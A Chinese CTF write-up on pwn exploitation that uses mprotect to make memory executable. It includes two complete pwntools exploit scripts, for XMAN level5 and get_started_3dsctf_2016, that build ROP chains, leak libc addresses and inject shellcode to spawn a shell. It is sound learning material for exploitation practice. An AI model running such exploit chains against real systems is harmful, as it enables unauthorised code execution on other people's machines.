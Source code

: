 ﻿
---
title: xman的leve5另一种解法(mprotect)学习与利用
categories: [CTF]
tags: [pwn]

---

当时在xman听大佬将leve5利用时，很疑惑要调用mprotect，明明可以溢出执行`system('/bin/sh')`了. 直到我遇到些奇怪的静态编译题,我真香了故小记一下<!--more-->

## `mprotect()`函数

在Linux中，`mprotect()`函数可以用来修改一段指定内存区域的保护属性。mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。

使用方法：

```c
int mprotect(const void *start, size_t len, int prot);
```

常规使用：

```c
mprotect(addr, len, 7);
```

start表示一块代码段的起始位置。

len表示要修改长度，len的大小如果过小，libc会自动来补齐的。

port 表示权限 即使读（4）写（2）执行（1）

## leve5 exp

```python
from pwn import * 
from libcfind import *

local_mote=1
elf='./level3_x64'
e=ELF(elf)
#context.log_level = 'debug'
context.arch=e.arch
ip_port=['node4.buuoj.cn',26162]

debug=lambda : gdb.attach(p) if local_mote==1 else None

if local_mote==1 :
   p=process(elf)
else :
   p=remote(ip_port[0],ip_port[-1])

#debug()
rop = ROP(elf)

print(rop.dump())
p.recvline()
p.sendline(0x88*'1'+p64(0x0000000004006AA)+p64(0)+p64(1)+p64(e.got['write'])+p64(8)+p64(e.got['read'])+p64(1)+p64(0x000000000400690)+'s'*8*7+p64(e.sym['vulnerable_function']))

#addr=p.recvuntil('\x7f')[:-6].ljust(8,'\x00')
addr=u64(p.recv(7).ljust(8,'\x00'))
log.info(hex((addr)))
x=finder('read',addr)
"""
p.sendline(0x88*'1'+p64(0x00000000004006b3)+p64(x.dump('str_bin_sh'))+p64(x.dump('system')))
#addr=0x00600000
"""
rdx=0x00000000000cb1cd+x.libcbase
rdi=0x0000000000026796+x.libcbase
rsi=0x000000000002890f+x.libcbase


debug()
#p.sendline(0x88*'1'+p64(rdi)+p64(0x00600a00)+p64(rsi)+p64(0x100000)+p64(rdx)+p64(7)+p64(x.dump('mprotect'))+p64(rdi)+p64(0)+p64(rsi)+p64(0x00600a00)+p64(rdx)+p64(0x100)+p64(x.dump('read'))+p64(0x00600a00))
p.sendline(0x88*'1'+p64(rdi)+p64(0)+p64(rsi)+p64(0x1000)+p64(rdx)+p64(7)+p64(x.dump('mmap'))+'1'*8)
#+p64(rdi)+p64(0)+p64(rsi)+p64(0x00600a00)+p64(rdx)+p64(0x100)+p64(x.dump('read'))+p64(0x00600a00))

p.sendline(asm(shellcraft.sh()))

```

## 利用机会-get_started_3dsctf_2016

一般情况下mprotect的使用都用点画蛇添足，但是在一些静态编译的题目中就是很有用的。比如：get_started_3dsctf_2016

这道题是32位的，静态编译中ban了system，但是给mprotect了。由于没有开PIE，我们可以将可控的一段程序写入读写执行权限，然后写入后门，来得到shell



```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

'''
@File    :   2exp.py
@Time    :   2021/10/19 13:33:42
@Author  :   lexsd6
'''

from pwn import * 
from libcfind import *

local_mote=1
elf='./get_started_3dsctf_2016'
e=ELF(elf)
#context.log_level = 'debug'
context.arch=e.arch
ip_port=['node4.buuoj.cn',29847]

debug=lambda : gdb.attach(p) if local_mote==1 else None

if local_mote==1 :
   p=process(elf)
else :
   p=remote(ip_port[0],ip_port[-1])

gets=0x804f630
edi_ret=0x0805099d
addr=0x080ea900
eax_ret=0x080b91e6
ebx_ret=0x080481ad
edx_ret=0x0806fc0a
ret=0x08048196
int80=0x0806d7e5
ebx_edx_ret=0x0806fc09
write=0x806e1b0
#0x080557ab : mov dword ptr [edx], eax ; ret
#debug()
#0x080d8443 : xchg dword ptr [edx], ecx ; ret
#0x08048a26 : xchg eax, ecx ; ret 交换
#0x08048880 : mov ebx, dword ptr [esp] ; ret
ecx_write_edxaddr=0x080557ab
#p.sendline(0x38*'1'+p32(e.sym['malloc'])+p32(0x0809e4c5)+p32(0x100000)+p32(0)+p32(0)+p32(ebx_edx_ret)+p32(1)+p32(addr)+p32(ecx_write_edxaddr)+p32(e.sym['write'])+p32(e.sym['main'])+p32(1)+p32(addr)+p32(4))
#shelladdr=u32(p.recv(4))-8
#log.info(hex(shelladdr))
shelladdr=0x080ea000
ppp=0x0804f460
p.sendline(0x38*'1'+p32(e.sym['mprotect'])+p32(0x0809e4c5)+p32(shelladdr)+p32(0x200)+p32(7)+p32(e.sym['gets'])+p32(ret)+p32(shelladdr))
debug()
p.sendline(asm(shellcraft.sh()))
#p.sendline(asm(shellcraft.sh()))
p.interactive()
```

